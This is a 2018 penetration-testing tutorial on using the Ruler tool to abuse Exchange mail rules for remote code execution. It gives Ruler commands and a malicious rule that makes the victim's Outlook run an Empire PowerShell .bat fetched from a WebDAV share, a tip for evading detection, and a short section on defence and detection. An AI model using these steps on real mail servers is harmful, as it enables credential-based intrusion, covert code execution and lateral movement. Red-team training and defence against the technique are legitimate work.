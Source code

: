 # Pivoting Through Exchange Using Ruler

## Pre-requisits

* **Installing **[**GO **](https://github.com/golang)
* [**ruler** ](https://github.com/sensepost/ruler)

## Introduction

Ruler is a tool that allows you to interact with Exchange servers remotely, through either the MAPI/HTTP or RPC/HTTP protocol. The main aim is abuse the client-side Outlook features and gain a shell remotely.

Ruler attempts to interact with Exchange and uses the Autodiscover service \(just like in your organization\) to discover the relevant information needed to proceed.

## What can we use ruler for

We can use ruler to do many things ill list its main feature below but, what i am going to show you is  gonna be a way to pop a shell through ruler and the only thing we need is a valid username/password and the user to have outlook open.

in a real life scenario most employees leave their outlook open because they are often checking for incoming mails etc.

* Enumerate valid users
* Create new malicious mail rules 
* Dump the Global Address List \(GAL\)
* VBScript execution through forms
* VBScript execution through the Outlook Home Page

crazy isnt it? now that we know some of ruler usage lets get starting

### Checking that we are good to go :

i wont go through on how to find mail structures,adding dns records etc ill leave you to explore it.

once we know the mail structure,added dns records etc we can start by checking with the exchange server that we  can communicate to it and that we are able to authenticate and open the mailbox.

depends on how you compile ruler it may be different than the syntax below

```
go ruler run --email test@lab.local --verbose check
```

once executed we will get a password prompt,if everything is valid we should get a messsage stating that the mailbox has been opened and that we are good to go.

### Viewing Existing Rules :

```
go ruler run --email test@lab.local display
```

### Setting up an Empire Listener

i wont go into how to set up an empire or its  listener you can refer to chryzsh [link](https://chryzsh.gitbooks.io/darthsidious/content/responder/relay.html) in the book to get an understanding of how to quickly set it up. instead of using a one liner we should generate a .bat powershell and host it on a webdav server.

there are many guides on the net on how to quickly set up a webdav server.

its worth mentiniong that its possible to evade detection by zipping the .bat and then calling it through webdav directory.

ill update this method in the future.

### Creating the rule

```
go ruler run --email test@lab.local add --name test --trigger shell --location "\\\\webdav.test\\webdav\shell.bat" --send
```

this command basically gonna send an email to the user inbox and trigger our rule when that happens we should shortly after recieve our empire shell.

now its worth mentioning that the user wont see the mail in his sent items since its automatically gettin deleted so we dont have to worry about that.

### Deleting the rule & Cleaning up

once we are done we can delete

`go ruler run  --email test@lab.local delete --name test`

### Defending against Ruler

1. Enable Multi-factor Authentication for all of your users, especially those with administrative privileges.

2. Monitor your accounts for illicit activity. You can do this manually, or with a security monitoring toolset. This may not prevent the initial breach, but will shorten the duration, and the impact of the breach.

### How to Detect it

The simplest method is to use a script microsoft made to get all the rules

[https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1](https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1)

You will need to have a global admin role to run the script

### Closing Thoughts

with ruler we can pop a shell and pivot across the network its a great tool that has alot to explore what i showed here is a just one of the things its capable of doing i suggest you to explore the rest of it and get better understanding of its true power.





Written by : ~~**BufferOv3rride**~~
Written: 30.03.2018
Last edited: 30.03.2018
